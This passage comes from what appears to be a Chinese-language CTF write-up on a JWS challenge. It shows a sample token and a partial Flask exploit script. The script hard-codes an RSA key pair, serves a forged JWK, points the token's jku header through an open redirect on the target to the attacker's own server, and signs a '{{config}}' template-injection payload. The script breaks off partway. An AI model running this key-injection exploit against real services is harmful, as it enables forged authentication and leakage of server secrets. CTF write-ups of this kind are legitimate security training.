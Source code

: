 再到上面页面构造即可：

![image-20210328102256473](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210328102256473.png)





## 0x03 JWS

http://192.46.234.216:5000/

```
{"header":{"alg":"RS256","jku":"http://localhost:5001/vuln/JWK","kid":"d6rFAC4MIXx26fVxB1a591QXDJDWQLw4OGhDg1ahq-M"},"payload":"TXkgSW50ZWdyaXR5IHByb3RlY3RlZCBtZXNzYWdl","signature":"r8WBnXoZNiBjt2D6p2wfdkypWUEMwTrw9dEHtd3N_sGT9scDynL2pHhmjy4C2JtbOMLNFkIfur0xs6qeI6QUiRobQpgo74aGVrT8Ne53G180NE7_3WP4chjUwiKf9iVmgGrw_O5jLGU71IBO7B04r3wfD8fg7EnMdYLN0r-tGGCpw_T9MMJD6pAhxLzretqJo3tWv1Mb1cq5RxfhJ_4lOIEGFkxphCJPaLb2_7s8K30ACvwzoNqI6JQQ3D8n_jnCEFhCYYvlpoQMpRj0dOl252AMWlZDQ3zhQJbqDov8ACqtH7KudUnamu1q_H6-5Elmzbm_R7Z8p6C4XuZkqbMEoQ"}
```


##### 完整脚本：

使用flask构建web服务，访问/hack即返回伪造的JWK。

```python
from flask import Flask, request, redirect, jsonify, send_from_directory
from jwcrypto import jwk, jws
from jwcrypto.common import json_encode
import os
import json
import requests, re

app = Flask(__name__)
app.config['pub_key'] = '{"e":"AQAB","kty":"RSA","n":"oBbyWuGxj4wqlVjqcpNh3ZKYTjVXWINNdn8zaJgJdPa0Wt286cE4wExWAV03Kuma7bh8yK5SgY2bte8mdjpcte5T1iOtqWTXDP5XbXQvzLPas1VVvzcMwdsMs4-mkuV6HCYaj7Sbent7Bvx_4aY8qxrIBSuqf4NBP38iE_Bkuzo_OeGtsz0f5KECUPDV-Tum1KDuiwCDt6Jmef_xAWUmAqJv9nK0GLnNceIDXmw775Gi26KxDl7g2ak22pNCEFBKbZqQak4cTeZJfNR-oUZqPXFGO9i2yZJ_G7iN-1JxSPTyqyKnG5Z16d7l1Q_TFP1btPMFu9qS_bdbnkcMxURoBQ"'
app.config['all_key'] = '{"d":"AaOagaGz7rNRsEvDwr6NjvY0RwC2zzow7dipjxWXazIncJK6n24SBa4CZ2sr6G2R34M3C9r1D0yC3p7_NtCsKFSzWQrueUCGDyT_gihhYOgqghGKmjWXFNkITUJYQ0LEOEuPlA8WVG-1N8IYERhhoKLaj2r-COYwIdVMZQXeEiinXLfCVJCEtMMVNBMRfyUoY4_siQ6vMQGxJsHn8XOE2zsMnkreG7kPE-c0UrmsdnhmmyNFtegbS8dej4eH0Xy1txg81wTQSyGUru10QaFYVVAOhRFmdVNvSNWW3uL1guAOgLg8Y17FPnz1FiUGhflTeEsWwcKlVWl7QF0Bel-e1Q","dp":"nAk_O5Qi5HQRhgcsNZsGgFeEeErPn5CoXFx1DhANVbQwuNU-19P29wR4gSaDfexoLLaDXrw50g-ufmCLbz9r461LcPdmD6g9okstgPF38heLhjyTuA84xDu16sCX0ltpxWOWzhRkBeI0uhE1mjXtD7Uk9KUX5Y5SQK6MPZmVsoM","dq":"MznXQhv8h65iqwxzfPj3QwK6s9JvIR4IHnur2t3GYaCd-RG5fGSigkClUeG8TUlxViOr5ElbGsATWOzqAlr_CwTPCwEg9lcL5AKEHOy94k5CfAWMr1csa6Pp6bQJkveDf_c87s2Z1zYn6cJmJZiEJADocRyyUJ_mnh6wpvS7tgs","e":"AQAB","kty":"RSA","n":"oBbyWuGxj4wqlVjqcpNh3ZKYTjVXWINNdn8zaJgJdPa0Wt286cE4wExWAV03Kuma7bh8yK5SgY2bte8mdjpcte5T1iOtqWTXDP5XbXQvzLPas1VVvzcMwdsMs4-mkuV6HCYaj7Sbent7Bvx_4aY8qxrIBSuqf4NBP38iE_Bkuzo_OeGtsz0f5KECUPDV-Tum1KDuiwCDt6Jmef_xAWUmAqJv9nK0GLnNceIDXmw775Gi26KxDl7g2ak22pNCEFBKbZqQak4cTeZJfNR-oUZqPXFGO9i2yZJ_G7iN-1JxSPTyqyKnG5Z16d7l1Q_TFP1btPMFu9qS_bdbnkcMxURoBQ","p":"0-jzleXm-XbQe_gjrKqFsQUypSjtVX2NJ1ckF5op0qE1XiLETHg0C-woMuEymyW-vqRAbgA5yx4pVhlmJTPkv8TVsc9OYsz1H1cswiI-I73uLJ1wgUk_4mapa7K10Mrsw2X9AZpmiP7ntc4OwVdJ7BjUoY587IbZrV0yVCKgeYM","q":"wWXeDP796mxedqUActwBTCQCR3uNjbmOINMZY2CR0DuxCa9AX8V3VZEQVUj1Q6R8o4ixrQywQy1R902Kc9dCQqBkwF4WfybzhkfwiVcf8Yy3bqZzEoGCEbs2KVnYX7J3EBIfgEQVXb_G5ZeOvWzgSTi11e1_kdcUXdANiGtISdc","qi":"MNo8DyDds5N6gw6gmA17Iu0scH5i2n30oS0nDxFp0tKqfd5WAjF7J3P_uESwzW8AvncAm7HtDBd-KEHipcOcm7rPEdfBKKhyo3Q25chBCvRPvVcslmML30p3p0_F26yd5ThHWoo3UmHNoPLiMNZN3oRsCe1w2jity3YVvZDhu48"}'

def generate_key():
   key = jwk.JWK.generate(kty='RSA', size=2048)
   print(key.export_public())
   print(key.export())

@app.route('/') #to get evil jws token
def index():
   jku = 'http://localhost:5001/vuln/redirect?endpoint=http://localhost:5002/hack' #localhost:5002 its own server, 5001 server with vuln open redirect
   payload = '{{config}}'
   key = jws.JWK(**json.loads(app.config['all_key']))
```